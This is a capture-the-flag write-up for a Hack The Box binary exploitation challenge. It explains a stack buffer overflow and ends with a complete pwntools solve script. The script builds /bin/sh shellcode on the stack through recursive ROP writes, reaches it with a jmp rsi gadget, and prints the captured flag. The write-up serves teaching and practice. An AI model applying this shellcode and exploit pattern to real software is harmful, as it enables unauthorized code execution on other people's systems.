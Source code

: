 	# HTB Distopia - PWN | Assemblers Avenge

This challenge involved adding shellcode to the stack through recursive ROP calls and executing that shellcode through a relative JMP instruction.

### Initial Analysis

Looking at checksec there are no memory protections on the binary

```
$ checksec assemblers_avenge
	RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Taking a look through the binary, there is an obvious buffer overflow in the `_read` function. The buffer is located at `[RBP + -0x8]` which makes the buffer 8 bytes long, however `0x18` bytes are being read into it.

```
                _read                                           
0040106d 55              PUSH       RBP
0040106e 48 89 e5        MOV        RBP,RSP
00401071 48 83 ec 10     SUB        RSP,0x10
00401075 48 c7 c7        MOV        __fd,0x0
         00 00 00 00
0040107c 48 8d 75 f8     LEA        __buf=>local_10,[RBP + -0x8]
00401080 48 c7 c2        MOV        __nbytes,0x18
         18 00 00 00
00401087 48 c7 c0        MOV        RAX,0x0
         00 00 00 00
0040108e 0f 05           SYSCALL
00401090 c9              LEAVE
00401091 c3              RET
```

The assembly above is equivalent to

``` c
void _read() {
    char buffer[8];
    read(0, buffer, 0x18);
}
```

Now that the vulnerability has been discovered, the next step is to find a method to exploit it. There are two concerns when exploiting this:
- the amount of data that can be written is 16 bytes (24 - 8)
- the address of the stack is unknown

### Exploitation

Tackling the first issue is pretty simple through using recursive calls to `_read`. By setting RIP to `_read`, the buffer overflow vulnerability can be abused multiple times to make numerous write to the stack. Only 8 bytes can be written on the stack that don't get overriden, so shellcode with a payload size of 24 bytes will take 3 calls to `_read`.

``` python
f_read = p64(0x40106d)

shell1 = b'\x50\x48\x31\xd2\x48\x31\xf6\x48'.ljust(0x10, b'A') + f_read
shell2 = b'\xbb\x2f\x62\x69\x6e\x2f\x73\x68'.ljust(0x10, b'A') + f_read
shell3 = b'\x00\x53\x54\x5f\xb0\x3b\x0f\x05'.ljust(0x10, b'A') + f_read
```

Breaking after the `read` syscall is done executing the first 8 bytes of the shellcode are loaded.

```
pwndbg> x/20gx $rsp+0x8
0x7ffc01dcf290:	0x48f63148d2314850	0x4141414141414141
0x7ffc01dcf2a0:	0x000000000040106d	0x0000000000000000
```

Load the second part of the shellcode.

```
pwndbg> x/20gx $rsp
0x7ffd34e24560:	0x48f63148d2314850	0x68732f6e69622fbb
0x7ffd34e24570:	0x4141414141414141	0x000000000040106d
```

Load the third part of the shellcode.

```
pwndbg> x/20gx $rsp-0x08
0x7ffd34e24560:	0x48f63148d2314850	0x68732f6e69622fbb
0x7ffd34e24570:	0x050f3bb05f545300	0x4141414141414141
0x7ffd34e24580:	0x000000000040106d	0x0000000000000000
```

The complete shellcode should now be loaded to the stack

```
pwndbg> x/10i $rsp-0x8
   0x7ffd34e24560:	push   rax
   0x7ffd34e24561:	xor    rdx,rdx
   0x7ffd34e24564:	xor    rsi,rsi
   0x7ffd34e24567:	movabs rbx,0x68732f6e69622f
   0x7ffd34e24571:	push   rbx
   0x7ffd34e24572:	push   rsp
   0x7ffd34e24573:	pop    rdi
   0x7ffd34e24574:	mov    al,0x3b
   0x7ffd34e24576:	syscall 
   0x7ffd34e24578:	rex.B
```

The next step is finding a method of jumping to the top of the shellcode. This can be done through the gadget `0x40106b: jmp rsi;`. Since RSI stores the value of the buffer when `read()` is called, then it can also be used for jumping to the stack. The issue here is that RSI does not contain the location of the shellcode, but of the current buffer. Getting around this is pretty easy by using a relative jump instruction `jmp -0x1a`.

![img1](img1.png)

Put these two pieces together to execute shellcode and get the flag!
`HTB{y0ur_l0c4l_4553mbl3R5_4v3ng3d_066023bd8dc6109e6e4547497951c2ce}`

### Solve

``` python
""" HTB | Armed Terminal
This challenge is slightly tricky in that you need to find a way to jump to shellcode without a stack leak
in order to do this you need to:
  - place shellcode on the stack using numerous ROP calls to the _read function
  - use the gadget { jmp rsi } to jump to the top of the shellcode
"""
from pwn import *

context.binary = './assemblers_avenge'
context.log_level = 'error'
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

HOST = '94.237.49.212'
PORT = 39904

def get_process():
  return process() # use this if you want to test locally
  #return remote(HOST, PORT)

def main():
  proc = get_process()

  f_read = p64(0x40106d)
  g_jmp_rsi = p64(0x0040106b)

  # Payloads to place shellcode on the stack
  shell1 = b'\x50\x48\x31\xd2\x48\x31\xf6\x48'.ljust(0x10, b'A') + f_read
  shell2 = b'\xbb\x2f\x62\x69\x6e\x2f\x73\x68'.ljust(0x10, b'A') + f_read
  shell3 = b'\x00\x53\x54\x5f\xb0\x3b\x0f\x05'.ljust(0x10, b'A') + f_read
  nop_writes = b'\x90'*0x10 + f_read

  # Place nop sled above the shellcode
  for i in range(4):
    proc.send(nop_writes)

  # Place shellcode on the stack
  proc.send(shell1)
  proc.send(shell2)
  proc.send(shell3)

  # Perform a ROP to jmp RSI, which contains a relative jump instruction to go to our shellcode
  proc.send(b'\xe9\xe0\xff\xff\xff'.ljust(0x10, b'A') + g_jmp_rsi)
  proc.interactive()

if __name__ == '__main__':
  main()
```